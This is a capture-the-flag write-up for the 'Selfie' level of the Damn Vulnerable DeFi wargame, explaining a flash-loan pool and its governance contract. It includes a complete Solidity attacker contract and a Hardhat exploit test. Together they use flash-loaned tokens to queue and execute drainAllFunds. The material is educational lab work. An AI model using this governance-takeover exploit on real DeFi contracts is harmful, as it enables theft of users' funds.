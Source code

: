 # Selfie

## Introduction
A flash pool with a simple governance in place.

## Code Breakdown
Let's start by breaking down ***SelfiePool.sol***.
It uses openzeppelin for ERC20 and address while is uses an inhouse governance.
Basic event, modifier and constructor were created.
Looking at the first function ***flashLoan***, it offers basic flash loan services we've seen so far. It has re-entrancy protections and checks if the sender is from another contract. It'll then perform a low-level call with ***receiveTokens(addres,uint256)***. After performing the low-level call, it'll check if the tokens are returned.
```
function flashLoan(uint256 borrowAmount) external nonReentrant {
    uint256 balanceBefore = token.balanceOf(address(this));
    require(balanceBefore >= borrowAmount, "Not enough tokens in pool");
    
    token.transfer(msg.sender, borrowAmount);        
    
    require(msg.sender.isContract(), "Sender must be a deployed contract");
    msg.sender.functionCall(
        abi.encodeWithSignature(
            "receiveTokens(address,uint256)",
            address(token),
            borrowAmount
        )
    );
    
    uint256 balanceAfter = token.balanceOf(address(this));

    require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
}
```

Next function, ***drainAllFunds*** have an ***onlyGovernance*** modifier which will transfer all tokens to the receiver and emits an event afterwards.

```
function drainAllFunds(address receiver) external onlyGovernance {
    uint256 amount = token.balanceOf(address(this));
    token.transfer(receiver, amount);
    
    emit FundsDrained(receiver, amount);
}
```

## Hints

We know that ***flashLoan*** execute a low-level call, thus we can manipulate the call to execute an action with ***SimpleGovernance.sol***

In ***SimpleGovernance.sol***, there are 2 functions - ***queueAction*** and ***executeAction***. Notice that each action in governance have a timeframe, once the timeframe expires, it'll be due for execution.
```
function _canBeExecuted(uint256 actionId) private view returns (bool) {
    GovernanceAction memory actionToExecute = actions[actionId];
    return (
        actionToExecute.executedAt == 0 &&
        (block.timestamp - actionToExecute.proposedAt >= ACTION_DELAY_IN_SECONDS)
    );
}
```

What we want to do is simple:
1) Create an attacker smart contract with the function ***receiveTokens(address, uint256)*** to match the low-level call from ***SelfiePool.sol***.
2) In the function ***receiveTokens(address, uint256)***, it'll have to call ***queueAction*** to enqueue ***drainAllFunds***.
3) Return the tokens borrowed
4) Fast forward time
5) Execute the ***drainAllFunds*** with ***executeAction***

## Solutions

Here's the attacker smart contract.
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/utils/Address.sol";
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";
import "@openzeppelin/contracts/token/ERC20/extensions/ERC20Snapshot.sol";
import "../DamnValuableTokenSnapshot.sol";
import "./SimpleGovernance.sol";
import "../selfie/SelfiePool.sol";

/**
 * @title Attacker
 * @author BingleBangle-BH
 */
contract Attacker {

    SimpleGovernance public immutable governance;
    SelfiePool public immutable _SelfiePool;
    uint256 public _ActionId;

    constructor(address _SelfiePoolAddress, address _governanceAddress) {
        governance = SimpleGovernance(_governanceAddress);
        _SelfiePool = SelfiePool(_SelfiePoolAddress);
    }

    function receiveTokens(DamnValuableTokenSnapshot token, uint256 _borrowamount) public {
        bytes memory data = abi.encodeWithSignature(
                                "drainAllFunds(address)",
                                tx.origin
                            );

        token.snapshot(); //Required before queueing action

        token.transfer(msg.sender, _borrowamount);

        _ActionId = governance.queueAction(address(_SelfiePool), data, 0);
    }

    function stealFunds(uint256 _amount) public {
        _SelfiePool.flashLoan(_amount);
    }
}
```

Here's the javascript
```js
it('Exploit', async function () {
    /** CODE YOUR EXPLOIT HERE */
    const _Attacker = await ethers.getContractFactory('Attacker', attacker);

    this._AttackerPool = await _Attacker.deploy(this.pool.address, this.governance.address);
    await this._AttackerPool.stealFunds(TOKENS_IN_POOL);
    await ethers.provider.send("evm_increaseTime", [2 * 24 * 60 * 60]);
    await this.governance.executeAction(await this._AttackerPool._ActionId());
});
```

